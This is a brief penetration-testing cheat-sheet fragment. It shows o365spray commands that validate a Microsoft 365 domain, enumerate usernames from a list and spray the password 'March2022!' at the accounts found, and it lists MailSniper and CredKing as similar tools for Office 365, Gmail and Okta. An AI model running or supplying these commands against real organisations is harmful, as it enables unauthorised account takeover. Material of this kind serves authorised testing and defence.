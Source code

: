 ```shell
python3 o365spray.py --validate --domain adot8.com
```

```bash
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz   
```

```bash
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365

[o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta